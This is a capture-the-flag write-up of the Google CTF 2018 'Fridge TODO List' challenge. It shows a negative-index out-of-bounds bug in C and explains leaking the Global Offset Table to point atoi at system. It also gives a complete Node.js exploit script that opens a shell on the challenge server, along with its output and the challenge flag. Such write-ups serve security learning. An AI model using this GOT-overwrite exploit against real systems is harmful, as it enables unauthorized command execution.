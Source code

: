 # Hacking Smart Fridge at Google CTF 2018

It's unfortunate, but these SUID binary exploits are a bit too difficult. I
managed to solve none of them. I will go study more about SUID binaries and
hopefully I can get cakes next year.

But hey, I did manage to hack into the smart fridge.

## Fridge TODO List

The source code of the vulnerable program is included in the attachment.
Reading over it, it's not hard to see what's broken, but how to exploit it
is another question:

```C
// [...]

void store_todo() {
  printf("In which slot would you like to store the new entry? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("What's your TODO? ");
  fflush(stdout);
  read_line(&todos[idx*TODO_LENGTH], TODO_LENGTH);
}

void print_todo() {
  printf("Which entry would you like to read? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("Your TODO: %s\n", &todos[idx*TODO_LENGTH]);
}

// [...]
```

If I enter a negative number, I can read and write data out of bound. However,
`TODO_LENGTH` is `0x30`, with some math and a disassembler, I found places
that I can access:

```
-6  The "write" function in the Global Offset Table
-5  The "strncat" function in the Global Offset Table
-4  The "open" function in the Global Offset Table
-3  Some random place
-2  Start of "username" buffer
-1  Somewhere in the middle of "username" buffer
```

The `system` function in between `write` and `strncat` would allow me to
execute any shell command, so my goal should be to overwrite the Global Offset
Table (GOT) and make some other function point to `system`. Since `atoi` is
used to parse my menu choice input, it would be easy to exploit if I can make
`atoi` point to `system`. But there is another problem, modern operating
systems have Address Space Layout Randomization (ASLR), and a static payload
would not work.

I spent some time creating a 
[Node.js library](https://github.com/jspenguin2017/Blog/tree/master/tools/lib)
that allow my scripts to react to different server response over `netcat`.
Since I can't directly read the address of `system`, I have to calculate it
based on something else. `strncat` is already called before I can leak the
GOT, but `write` is only called when the program is exiting, so its GOT entry
should be still pointing to the Procedure Linkage Table (PLT). With Hopper
Disassembler, I determined that the `system` entry in PLT is `0x30` below
`write`. Hopefully it'll work:

```JavaScript
"use strict";

const assert = require("assert");
const nc = require("./lib/netcat");
const hex = require("./lib/hexutil");

const conn = new nc("fridge-todo-list.ctfcompetition.com", 1337);

(async () => {
    // Log in as (fake) root
    await conn.read_until("user:");
    conn.write_line("root");

    await conn.read_until(">");
    conn.write_line("2");

    // Leak address of "write" in the GOT
    await conn.read_until("read?");
    conn.write_line("-6");

    await conn.read_until("TODO: ");
    let data = await conn.read_until("Hi root");

    const i = data.indexOf("\n\n");
    assert(i !== -1);
    data = data.slice(0, i);
    hex.add(data, 0x30);

    // Overwrite "atoi" with "system", corrupting "open" on the way, I don't
    // need "open" anymore, so it's OK
    await conn.read_until(">");
    conn.write_line("3");

    await conn.read_until("entry?");
    conn.write_line("-4");

    await conn.read_until("TODO?");
    conn.write("A".repeat(8)); conn.write(data); conn.write("\n");

    // List directory
    await conn.read_until(">");
    conn.write_line("ls -al ./todos");
})();
```

Let's try it:

```
$ node exploit
[...]
> ls -al ./todos
total 12
drwxrwxrwt 2 user user   80 Jul  8 03:47 .
drwxr-xr-x 3 user user 4096 Jun 29 14:38 ..
-rw-r--r-- 1 user user 6144 Jul  8 03:47 CountZero
-rw------- 1 user user    0 Jul  8 03:47 root
[...]
```

Looks like Wintermuted is using `CountZero` as his username:

```
$ nc fridge-todo-list.ctfcompetition.com 1337
[...]
user: CountZero
+=====+=================================================================+
|   0 | Watch Hackers (again)                                           |
|   1 | Figure out why the fridge keeps beeping                         |
|   2 | check /home/user/holey_beep                                     |
|   3 | debug the fridge - toilet connectivity                          |
|   4 | follow sec advice: CTF{goo.gl/cjHknW}                           |
+=====+=================================================================+
[...]
```

And there is the flag. Check `/home/user/holey_beep`? What does that mean?

As for the URL in the flag, it links to a (troll) tweet saying signed integers
are more secure than unsigned ones.

## Holey... Beep?

Holey Beep, or [CVE-2018-0492](https://nvd.nist.gov/vuln/detail/CVE-2018-0492),
is a privilege escalation vulnerability in the `beep` utility. Although I
managed to understand how Holey Beep works, I didn't manage to complete this
quest...

I will be back. I will.
